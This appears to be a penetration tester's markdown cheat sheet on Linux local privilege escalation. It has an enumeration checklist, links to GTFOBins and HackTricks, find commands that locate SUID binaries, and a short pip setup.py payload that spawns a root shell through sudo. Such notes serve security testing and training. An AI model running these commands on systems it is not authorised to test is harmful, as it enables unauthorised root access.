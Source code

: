 # Local Priv Esc
#linux #lpe
https://gtfobins.github.io/
https://lolbas-project.github.io/#
https://book.hacktricks.xyz/linux-unix/privilege-escalation

- Get OS information
- Check if the sudo version is vulnerable
- Check the PATH, any writable folder?
- Check env variables, any sensitive detail?
- Search for kernel exploits using scripts (DirtyCow?)
- Dmesg signature verification failed error?
- More system enum (date, system stats, cpu info, printers)
- Enumerate more defenses


# Sticky-Bit

```

find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;

```

# Find files belonging to user

`find / -user low 2>/dev/null | egrep -v "proc|venv"`
`find / -group low 2>/dev/null | egrep -v "proc|venv"`

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# Exploit lxd group
https://www.hackingarticles.in/lxd-privilege-escalation/

# pip
`pip3 install <local_dir>` searches the local dir for a setup.py and executes it. Helpfull if pip is in the sudoers or sbit.

Alternative (https://gtfobins.github.io/gtfobins/pip/):
```
TF=$(mktemp -d)
echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo -H /usr/bin/pip3 install $TF
```